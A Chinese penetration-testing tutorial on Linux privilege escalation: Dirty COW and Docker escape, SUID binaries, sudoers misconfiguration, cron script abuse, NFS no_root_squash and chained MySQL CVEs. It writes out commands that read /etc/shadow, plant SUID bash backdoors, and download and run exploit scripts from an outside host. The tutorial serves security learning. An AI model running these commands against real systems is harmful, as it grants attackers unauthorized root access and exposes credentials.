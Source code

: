 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/fReLVJQ4mv46XBgjrgk43g)

在渗透测试过程中，提升权限是非常关键的一步，攻击者往往可以通过利用内核漏洞/权限配置不当/root权限运行的服务等方式寻找突破点，来达到提升权限的目的。

* * *

**1、内核漏洞提权**

提起内核漏洞提权就不得不提到脏牛漏洞（Dirty Cow），是存在时间最长且影响范围最广的漏洞之一。低权限用户可以利用该漏洞实现本地提权，同时可以通过该漏洞实现Docker容器逃逸，获得root权限的shell。

**1.1 本地内核提权**

（1）检测内核版本

```


```
`# 查看系统发行版本``lsb_release -a``# 查看内核版本``uname -a`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)


```

(2) 下载，编译生成exp文件

```


```
bypass@ubuntu:~$ make
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)


```

（3）执行成功，返回一个root权限的shell。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**1.2 利用DirtyCow漏洞实现Docker逃逸**

（1）进入容器，编译POC并执行：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

（2）在攻击者机器上，成功接收到宿主机反弹的shell。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**1.3 Linux提权辅助工具**

github项目地址：

```
https://github.com/mzet-/linux-exploit-suggester.git
```

（1）根据操作系统版本号自动查找相应提权脚本

```


```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```


```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

（2）根据提示下载poc，编译执行。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**2、利用SUID提权**

SUID是一种特殊权限，可以让调用者在执行过程中暂时获得该文件拥有者的权限。如果可以找到并运行root用户所拥有的SUID的文件，那么就可以在运行该文件的时候获得root用户权限。

（1）在Linux中查找可以用来提权的SUID文件

```


```
find / -perm -u=s -type f 2>/dev/null
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)


```

（2）通过find以root权限执行命令

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可用作Linux提权的命令及其姿势:

```


```
`#Find``find pentestlab -exec whoami \;``#Vim``vim.tiny /etc/shadow``#awk``awk 'BEGIN{system("whoami")}'``#curl``curl file:///etc/shadow``#Bash``bash -p` `#Less``less /etc/passwd``#Nmap``nmap --interactive`
```




```

**3、SUDO提权**

普通用户在使用sudo执行命令的过程中，会以root方式执行命令。在很多场景里，管理员为了运维管理方便，sudoer配置文件错误导致提权。

（1）设置sudo免密码

```


```
`$vi /etc/sudoers``在最后一行添加：bypass ALL=(ALL:ALL) NOPASSWD:ALL`
```




```

（2）查看sudo的权限

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**4、计划任务**

如果可以找到可以有权限修改的计划任务脚本，就可以修改脚本实现提权。本质上，就是文件权限配置不当。

（1）查看计划任务，找到有修改权限的计划任务脚本。

```
`ls -l /etc/cron*``more /etc/crontab`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

（2）在mysqlback.sh 添加 SUID shell后门，当定时任务以root再次执行的时候，可以获取root权限。  

```


```
`cp /bin/bash /tmp/shell``chmod u+s /tmp/shell`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)


```

**5、NFS提权**

当服务器中存在NFS共享，开启no_root_squash选项时，如果客户端使用的是root用户，那么对于共享目录来说，该客户端就有root权限，可以使用它来提升权限。

（1）查看NFS服务器上的共享目录

```


```
sudo showmount -e 10.1.1.233
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)


```

（2）创建本地挂载目录，挂载共享目录。使用攻击者本地root权限创建Suid shell。

```


```
`sudo mkdir -p /tmp/data``sudo mount -t nfs 10.1.1.233:/home/bypass /tmp/data``cp /bin/bash /tmp/data/shell``chmod u+s /tmp/data/shell`
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

（3）回到要提权的服务器上，使用普通用户使用-p参数来获取root权限。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**6、MySQL提权**

MySQL提权方式有UDF提权，MOF提权，写入启动项提权等方式，但比较有意思的是CVE-2016-6663、CVE-2016-6664组合利用的提取场景，可以将一个www-data权限提升到root权限。

（1）利用CVE-2016-6663将www-data权限提升为mysql权限：

```


```
`cd /var/www/html/``gcc mysql-privesc-race.c -o mysql-privesc-race -I/usr/include/mysql -lmysqlclient``./mysql-privesc-race test 123456 localhost testdb`
```




```

（2）利用CVE-2016-6664将Mysql权限提升为root权限：

```


```
`wget http://legalhackers.com/exploits/CVE-2016-6664/mysql-chowned.sh``chmod 777 mysql-chowned.sh``./mysql-chowned.sh /var/log/mysql/error.log`
```




```